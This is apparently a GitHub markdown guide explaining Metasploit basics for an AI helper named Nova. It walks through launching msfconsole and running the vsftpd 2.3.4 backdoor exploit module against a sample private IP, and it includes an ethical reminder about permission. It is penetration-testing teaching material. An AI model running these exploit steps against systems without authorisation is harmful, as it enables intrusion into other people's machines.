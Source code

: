 guides/metasploit.md

# 🛠️ Metasploit Basics Guide with Parrot GPT Assistant

## What is Metasploit?

Metasploit is a powerful penetration testing framework used to find, exploit, and validate vulnerabilities. It contains a wide range of exploits, payloads, and auxiliary modules.

---

## Using Metasploit with Parrot GPT Assistant

Nova can help you construct Metasploit commands and guide you through using common modules. For example, you can ask:

> "How do I start Metasploit and run a basic exploit?"

Nova will suggest commands and explain their usage step-by-step.

---

## Common Metasploit Commands

### 1. Start the Metasploit console
```bash
msfconsole

<!-- [ADD SCREENSHOT: Nova suggesting msfconsole command] -->
2. Search for an exploit

search vsftpd

<!-- [ADD SCREENSHOT: Nova suggesting search command] -->
3. Use an exploit module

use exploit/unix/ftp/vsftpd_234_backdoor

<!-- [ADD SCREENSHOT: Nova showing 'use' command suggestion] -->
4. Set required options (e.g., target IP)

set RHOST 192.168.1.10

<!-- [ADD SCREENSHOT: Nova suggesting set command] -->
5. Run the exploit

exploit

<!-- [ADD SCREENSHOT: Nova suggesting exploit command] -->
How to Ask Nova

Examples:

    "Open Metasploit console"

    "Search for ftp exploits"

    "Use vsftpd backdoor exploit"

    "Set target IP to 10.0.0.5"

    "Run exploit"

Nova will reply with suggested commands and explanations.
Ethical Reminder

Only use Metasploit against targets you have permission to test.
Tips

    Use help inside msfconsole for detailed module commands

    Combine Metasploit with Nmap scans for better target information

